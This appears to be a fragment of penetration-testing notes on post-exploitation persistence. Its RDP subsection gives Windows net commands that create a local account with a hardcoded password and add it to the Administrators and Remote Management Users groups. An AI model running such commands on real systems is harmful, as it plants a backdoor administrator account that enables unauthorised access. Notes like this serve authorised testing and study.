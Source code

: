 # 4 persistence

## RDP

- Set up RDP accesss using

```shell
net user a3cipher a3cipher /add
net localgroup Administrators a3cipher /add
net localgroup "Remote Management Users" a3cipher /add
```